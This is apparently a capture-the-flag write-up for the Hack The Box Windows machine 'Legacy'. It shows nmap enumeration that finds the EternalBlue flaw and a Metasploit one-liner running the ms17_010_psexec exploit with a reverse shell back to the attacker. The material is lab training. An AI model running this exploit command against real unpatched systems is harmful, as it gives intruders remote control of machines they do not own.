 ```yaml
---
title: "Legacy - HTB"
categories: [Windows, Easy]
tags: [Easy,Windows,EternalBlue,SMB,Metasploit]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Legacy.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**

## Diagram

```mermaid
graph TD
	Enumeration --> SMB --> Exploration --> |EternalBlue| A((ROOT))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled.png)

Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled%201.png)

# Exploration

## Exploring EternalBlue

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```
